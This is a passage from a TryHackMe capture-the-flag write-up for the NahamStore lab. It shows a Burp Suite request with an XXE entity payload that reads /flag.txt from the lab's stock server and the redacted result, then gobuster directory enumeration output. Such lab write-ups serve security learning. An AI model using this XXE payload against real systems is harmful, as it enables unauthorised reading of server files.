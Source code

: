 **Response:**
```xml
<?xml version="1.0"?>
<data><error>X-Token XXE payload is invalid</error></data>
```

It works! Let's retrive the `/flag.txt`!

**Burp Suite Request:**
```
POST /product/1?xml HTTP/1.1
Host: stock.nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/xml; charset=utf-8
Content-Length: 36
X-Token: 1337

<?xml version="1.0"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM 'file:///flag.txt'>]>
<data><X-Token>&xxe; </X-Token></data>
```

**Response:**
```xml
<?xml version="1.0"?>
<data><error>X-Token {Redacted}
 is invalid</error></data>
```

2. Blind XXE Flag

**At the Recon section, we discovered `/staff` and `uploads` directory in `nahamstore.thm`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# gobuster dir -u http://nahamstore.thm/ -w /usr/share/wordlists/dirb/common.txt -t 100              
[...]                       
/staff                (Status: 200) [Size: 2287]                           
/uploads              (Status: 301) [Size: 178] [--> http://127.0.0.1/uploads/]
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a48.png)
